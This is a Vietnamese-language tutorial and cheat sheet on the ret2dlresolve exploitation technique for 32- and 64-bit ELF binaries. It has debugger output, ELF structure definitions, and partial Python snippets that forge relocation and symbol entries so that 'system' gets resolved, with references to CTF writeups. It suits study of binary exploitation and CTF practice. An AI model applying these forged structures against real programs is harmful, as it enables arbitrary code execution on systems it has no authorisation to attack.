


# Ret2dlresolve 
>Trả về hàm `_dl_runtime_resolve` với các tham số được tùy chỉnh nhằm giải quyết bất kì hàm nào trong libc mà chúng ta muốn gọi. 

- `_dl_runtime_resolve(link_map, reloc_arg)` => Phân tích quá trình resolve dựa trên STRTAB, SYMTAB, JMPREL sau đó là các cấu trúc và thuật toán cần fake để thực hiện `ret2dlresolve`, để nắm vững kĩ thuật nên làm ví dụ mẫu, đọc writeup. 
   * Bắt đầu từ kiến trúc `32 bit` trước vì nó đơn giản hơn khi khai thác trên kiến trúc này. 
   * Trên kiến trúc `64 bit` về cơ bản cấu trúc không thay đổi nhiều, có thay đổi về vị trí, một vài dữ liệu trong cấu trúc, thuật toán kiểm tra dữ liệu.
- Khi chương trình gọi hàm từ thư viện lần đầu tiên.



- Những lần gọi hàm sau lần đầu tiên.



- Hai đối số có đối số thứ hai liên quan đến JMPREL, đối số thứ 1 link_map cần leak hoặc ghi đè để tránh gây lỗi.

## [1]. 32-bit

> Sử dụng kỹ thuật khi file là 32-bit, không xác định được phiên bản `libc` và không có cách nào để `leak` được dữ liệu từ thư viện hay chương trình để thực hiện `ret2libc`.

- DEBUG chương trình kiểm tra giá trị trên `GOT` khi hàm chưa được gọi - là địa chỉ lệnh thứ hai trong đoạn mã `PLT`, `jmp 0x80482f0` nhảy đến call reesolve.

```asm
pwndbg> disass 'read@plt'
Dump of assembler code for function read@plt:
   0x08048300 <+0>:	jmp    DWORD PTR ds:0x804a00c
   0x08048306 <+6>:	push   0x0
   0x0804830b <+11>:	jmp    0x80482f0
End of assembler dump.
pwndbg> x/wx 0x804a00c
0x804a00c <read@got.plt>:	0x08048306
pwndbg> 
```

- Phần .dynamic của tệp ELF chứa thông tin được ld.so sử dụng để phân giải các `symbol` trong thời gian chạy. Chỉ tập trung vào `SYMTAB, STRTAB, và JMPREL`.

```bash
l1j9m4 in ~/Desktop/ret2dlresolve/babystack λ readelf -d babystack | egrep "SYMTAB|STRTAB|JMPREL" 
 0x00000005 (STRTAB)                     0x804822c
 0x00000006 (SYMTAB)                     0x80481cc
 0x00000017 (JMPREL)                     0x80482b0
```

- **JMPREL**

```bash
l1j9m4 in ~/Desktop/ret2dlresolve/babystack λ readelf -r ./babystack

Relocation section '.rel.dyn' at offset 0x2a8 contains 1 entry:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ffc  00000306 R_386_GLOB_DAT    00000000   __gmon_start__

Relocation section '.rel.plt' at offset 0x2b0 contains 3 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a00c  00000107 R_386_JUMP_SLOT   00000000   read@GLIBC_2.0
0804a010  00000207 R_386_JUMP_SLOT   00000000   alarm@GLIBC_2.0
0804a014  00000407 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
```

- Cấu trúc của các mục nhập loại `Elf32_Rel` là 8 byte và được định nghĩa như sau.

```c
typedef uint32_t Elf32_Addr ; 
typedef uint32_t Elf32_Word ; 
typedef struct 
{
   Elf32_Addr  r_offset ;  /* Address */ 4
   Elf32_Word  r_info ;    /* Relocation type and symbol index */ 4 
} Elf32_Rel ; 

#define ELF32_R_SYM(val) ((val) >> 8) 
#define ELF32_R_TYPE(val) ((val) & 0xff)

/* val = Elf32_Rel->r_info */
```

- **STRTAB** - là một mảng lưu trữ các chuỗi là tên của `symbol` sẽ được tìm và phân giải ở thư viện liên kết.

```asm
pwndbg> x/10s 0x804822c
0x804822c:	""
0x804822d:	"libc.so.6"
0x8048237:	"_IO_stdin_used"
0x8048246:	"read"
0x804824b:	"alarm"
0x8048251:	"__libc_start_main"
0x8048263:	"__gmon_start__"
0x8048272:	"GLIBC_2.0"
0x804827c:	""
0x804827d:	""
pwndbg> 
```

- **SYMTAB** Bảng này chứa thông tin `symbol` có liên quan. Mỗi mục nhập là một cấu trúc Elf32_Sym và kích thước của nó là 16 byte.

```c
typedef struct 
{ 
   Elf32_Word     st_name ;   /* Symbol name (string tbl index) */ 4
   Elf32_Addr     st_value ;  /* Symbol value */ 4
   Elf32_Word     st_size ;   /* Symbol size */ 4
   unsigned char  st_info ;   /* Symbol type and binding */ 1 
   unsigned char  st_other ;  /* Symbol visibility under glibc>=2.2 */ 1 
   Elf32_Section  st_shndx ;  /* Section index */  2
} Elf32_Sym ;
```

> Mối liên hệ giữa ba bảng SYMTAB, STRTAB và JMPREL để tính được vị trí `symbol` của hàm cần tìm và giải quyết nó khi chương trình gọi tới.

```asm
pwndbg> x/4wx 0x80481cc + 1 * 16    // (SYMTAB + index*sizeof(entry)) where index = ELF32_R_SYM(r_info)
0x80481dc:	0x0000001a	0x00000000	0x00000000	0x00000012
pwndbg> x/1s 0x804822c+0x1a
0x8048246:	"read"      // (STRTAB + st_name)
```

- Đây là những gì xảy ra khi chương trình gọi đến một hàm của thư viện lần đầu.

```asm
pwndbg> disass 'read@plt'
Dump of assembler code for function read@plt:
   0x08048300 <+0>:	jmp    DWORD PTR ds:0x804a00c
   0x08048306 <+6>:	push   0x0
   0x0804830b <+11>:	jmp    0x80482f0
End of assembler dump.
pwndbg> x/wx 0x804a00c
0x804a00c <read@got.plt>:	0x08048306
pwndbg> x/2i 0x80482f0
   0x80482f0:	push   DWORD PTR ds:0x804a004   // adrgument 1: linkmap of dl_rumtime_resolve() 
   0x80482f6:	jmp    DWORD PTR ds:0x804a008   // dl_rumtime_resolve()
pwndbg> 
```

Toàn bộ thuật toán của quá trình từ mối liên hệ giữa ba bảng SYMTAB, STRTAB và JMPREL để tính được vị trí tên `symbol` cần tìm và phân giải khi chương trình gọi tới.

```c
// call of unresolved read(0, buf, 0x100)
_dl_runtime_resolve(link_map, rel_offset) {
    ...
    // Algorithm
    Elf32_Rel * rel_entry = JMPREL + rel_offset ;
    Elf32_Sym * sym_entry = &SYMTAB [ ELF32_R_SYM ( rel_entry -> r_info )];
    char * sym_name = STRTAB + sym_entry -> st_name ;
    ...
    _search_for_symbol_(link_map, sym_name);
    // invoke initial read call now that symbol is resolved
    read(0, buf, 0x100);
```

- `rel_offset` là offset của entry `Elf32_Rel` của 1 hàm với JMPREL. 

- `Link_map` - (0x804a004) không có gì khác ngoài một danh sách với tất cả các thư viện đã tải. `_dl_runtime_resolve` sử dụng danh sách này để giải quyết biểu tượng của hàm cần tìm. 

### [*] Tóm lại cần fake 

**1.** `Rel_offset` - Argument function `_dl_runtime_resolve` .

**2.** `Elf32_Rel->r_info` - Fake struct Elf32_Rel (Từ đây tính index rồi chuyển qua Elf32_Sym để tính toán).

**3.** `Elf32_Sym->st_name` - Fake struct Elf32_Sym .

**4.** `String "system"` .

- Để khai thác cần tính toán, lựa chọn vị trí và align phức tạp nữa nên một lần nữa tôi nhấn mạnh đây chỉ giống như `cheat sheet` => đọc và làm ví dụ từ writeup `0ctf - babystack` tôi để link trong mẫu 32 bit.

```python
### FAKE INFO 
# Compute offsets and forged structures
forged_ara = buf + 0x14				                  # buffer2 contain struct from buf + 0x14 = EXAMPLE

elf32_sym = forged_ara + 0x8	                     # size of elf32_rel
align = 0x10 - ((elf32_sym - SYMTAB) % 0x10) 	   # align to 0x10
elf32_sym = elf32_sym + align

# fake rel_offset argument `_dl_runtime_resolve`
rel_offset = forged_ara - JMPREL		

# fake rel_entry->r_info 
index_sym = (elf32_sym - SYMTAB) // 0x10
r_info = (index_sym << 8) | 0x7

# fake st_name (sym_entry->st_name)
st_name = (elf32_sym + 0x10) - STRTAB

### FAKE STRUCT
# fake struct "Elf32_Rel *rel_entry"
fake_rel_struct = p32(elf.got["read"]) + p32(r_info)

# fake struct "Elf32_Sym *sym_entry"
fake_sym_struct = p32(st_name) + p32(0) 
fake_sym_struct += p32(0) + p32(0x12)
```

- Sau khi resolve địa chỉ hàm system sẽ được đặt trong r_offset - trong vd là got của read. Khi tạo payload thì thường được để liền payload nên sau khi resolve sẽ gọi tới hàm system luôn.

### Reference Source:

[+] https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62

[+] https://www.lazenca.net/display/TEC/01.Return-to-dl-resolve+-+x86

## [2]. 64-bit

### A) FAKE Rela_offset.

Cấu trúc Elf64_Rela có kích thước 24 byte.

```c
typedef uint64_t Elf64_Addr;
typedef uint64_t Elf64_Xword;
typedef int64_t  Elf64_Sxword;
 
typedef struct
{
  Elf64_Addr      r_offset;              /* Address, Location at which to apply the action */ 8
  Elf64_Xword     r_info;                /* Relocation type and symbol index */ 8
  Elf64_Sxword    r_addend;              /* Constant addend used to compute value */ 8
} Elf64_Rela;

#define ELF64_R_SYM(val) ((val) >> 32) 
#define ELF64_R_TYPE(val) ((val) & 0xffffffff)

/* val = Elf64_Rela->r_info */
```

Cấu trúc Elf64_Sym có kích thước 64 byte.

```c
typedef uint32_t Elf64_Word;
typedef uint16_t Elf64_Section;
typedef uint64_t Elf64_Addr;
typedef uint64_t Elf64_Xword;
 
typedef struct
{
  Elf64_Word      st_name;                /* Symbol name (string tbl index) */ 4
  unsigned char   st_info;                /* Symbol type and binding */ 1
  unsigned char   st_other;               /* Symbol visibility */ 1
  Elf64_Section   st_shndx;               /* Section index */ 2
  Elf64_Addr      st_value;               /* Symbol value */ 8
  Elf64_Xword     st_size;                /* Symbol size */ 8
} Elf64_Sym;
```

      - Sự khác biệt giữa x86 và x64 là cấu trúc Elf64_Rela, Elf64_Sym được sử dụng thay vì cấu trúc Elf32_Rel, Elf32_Sym.
      - Điều quan trọng ở đây là kích thước của cấu trúc thay đổi.
         - Kích thước của cấu trúc Elf32_Rel (8 byte) → Kích thước của cấu trúc Elf64_Rela (24 byte)
         - Kích thước của cấu trúc Elf32_Sym (16 byte)  →  Kích thước của cấu trúc Elf64_Sym (24 byte)
      - Do đó, giá trị Rela_offset phải là chỉ số mảng của cấu trúc Elf64_Rela, không phải là giá trị bù đắp của địa chỉ.
      
 Cách thức tính toán thay đổi ở Rela_offset - đối số của `_dl_runtime_resolve` là chỉ số của cấu trúc thay vì là giá trị bù đắp (offset), còn lại cách thức tính toán tên của `symbol` cần `resolve` tương tự trên 32 bit.

>Note: Vấn đề phát sinh ở kiến trúc 64 bit xuất phát từ đoạn mã sau:

```c
const struct r_found_version *version = NULL;
 
if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)
{
    const ElfW(Half) *vernum = (const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
    ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
    version = &l->l_versions[ndx];
    if (version->hash == 0)
        version = NULL;
}
```

Cụ thể bạn có thể đọc kỹ hơn ở phần `The Exploit` của bài viết này [ret2dl_resolve](https://syst3mfailure.io/ret2dl_resolve) . Từ đó kết hợp với những lần khai thác lại mẫu của tôi `(tôi sẽ để cả hai trường hợp ở VD mẫu)` tôi chia `ret2dl_resolve` trên 64 bit ra hai trường hợp xử lý:

      1) Vùng .bss được ánh xạ ở nơi có địa chỉ dạng `0x60xxxx` - Trường hợp này bạn cần hàm `write` hoặc hàm có chức năng tương tự từ libc để leak giá trị của link_map (GOT + 8) phục vụ việc ghi đè (l->l_info[VERSYMIDX (DT_VERSYM)] == NULL) dẫn đến không thực thi đoạn mã `check version` nên không sinh ra lỗi.
      
      2) Vùng .bss được ánh xạ nơi có địa chỉ dạng `0x40xxxx` - Trường hợp này khai thác như trên 32 bit khi mà mã nguồn chương trình cần khai thác chỉ có một hàm `read` từ libc và khi đó struct fake tại .bss không quá lớn dẫn đến lỗi `check version`.

### [*] Tóm lại cần fake 

**1.** `Rela_offset` - Argument function `_dl_runtime_resolve` .

**2.** `Elf64_Rela->r_info` - Fake struct Elf64_Rela .

**3.** `Elf64_Sym->st_name` - Fake struct Elf64_Sym .

**4.** Leak `link_map` bằng hàm libc nếu có và ghi đè giá trị của `link_map + 0x1d0` ( hoặc `linkmap + 0x1c8` tùy phiên bản libc ) thành NULL (TH: .bss => 0x60xxxx) .

Để khai thác cần tính toán, lựa chọn vị trí và align phức tạp nữa nên một lần nữa tôi nhấn mạnh đây chỉ giống như `cheat sheet` => đọc và làm ví dụ tôi để trong mẫu 64 bit (có cả hai trường hợp).

```python
### FAKE INFO
forged_area = base_stage + 40 # 64 - 8 * 3         # fake contain struct from fake + 40 = EXAMPLE

addr_rela = forged_area
align_rela = 24 - ((addr_rela - JMPREL) % 24)
addr_rela = addr_rela + align_rela

addr_sym = addr_rela + 24
align_sym = 24 - ((addr_sym - SYMTAB) % 24)
addr_sym = addr_sym + align_sym

log.info("Align rela: " + hex(align_rela))
log.info("Align sym: " + hex(align_sym))

addr_string = addr_sym + 24

rela_offset = (addr_rela - JMPREL) // 24
index_sym = (addr_sym - SYMTAB) // 24
r_info = (index_sym << 32) | 0x7
st_name = addr_string - STRTAB

### FAKE STRUCT
fake_rela_struct =  p64(read_got) + p64(r_info) + p64(0)

fake_sym_struct = p32(st_name) + p32(0x12) + p64(0) + p64(0)
```

- Khác biệt giữa hai struct entry ở hai kiến trúc x86 và x86-64

```c
+) Khác biệt ở struct entry SYMTAB
typedef struct {
        Elf32_Word      st_name;
        Elf32_Addr      st_value;
        Elf32_Word      st_size;
        unsigned char   st_info;
        unsigned char   st_other;
        Elf32_Half      st_shndx;
} Elf32_Sym;

typedef struct {
        Elf64_Word      st_name;
        unsigned char   st_info;
        unsigned char   st_other;
        Elf64_Half      st_shndx;
        Elf64_Addr      st_value;
        Elf64_Xword     st_size;
} Elf64_Sym;

+) Khác biệt ở struct entry JMPREL
typedef struct {
        Elf32_Addr      r_offset;
        Elf32_Word      r_info;
} Elf32_Rel;
 
typedef struct {
        Elf32_Addr      r_offset;
        Elf32_Word      r_info;
        Elf32_Sword     r_addend;
} Elf32_Rela;
```

### B) FAKE Link_map.

Tôi chưa thử trường hợp này bao giờ, bạn có thể tham khảo nó qua bài viết này [ret2dl_resolve-fake_link_map](https://chung96vn.wordpress.com/2018/12/28/ret2dlresolve-technique/) .

### Reference Source:

[+] https://www.lazenca.net/pages/viewpage.action?pageId=19300744

[+] https://syst3mfailure.io/ret2dl_resolve

[+] http://rk700.github.io/2015/08/09/return-to-dl-resolve/

[+] https://chung96vn.wordpress.com/2018/12/28/ret2dlresolve-technique/

